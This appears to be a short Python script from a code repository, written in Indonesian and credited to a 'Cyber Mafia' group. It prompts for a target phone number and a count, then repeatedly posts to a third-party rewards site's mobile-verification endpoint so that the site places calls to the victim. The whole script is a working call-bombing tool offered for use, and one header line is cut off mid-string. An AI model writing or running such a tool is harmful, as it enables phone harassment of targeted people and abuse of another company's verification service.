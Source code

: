 # script-Data-seluruh-Spamcall
#module
import os,sys ,time,requests
from time import sleep

#Tampilan
os.system("clear")
sleep(1)
os.system("SpamCall")
banner= """
===================================================
{*} Author : By Mr.Cyber•Jawa Tengah
{*} Team   : Cyber Mafia Jawa Tengah
=================================================="""
sleep(1)
print(banner)
nomor = input("nomor target: ")
jumlah = int(input("jumlah Spam: "))

url = "https://id.jagreward.com/member/verify-mobile/"
ua = {'Host': "id.jagreward.com",'Connection': "keep-alive",'User-Agent': 'Moz>
dat = {"method": "CALL","countryCode": "id",}

for i in range(jumlah):
    send = requests.post(url+nomor, headers=ua, data=dat)
    print(" [â€¢] Status ~+> ",(send.json()["message"]))
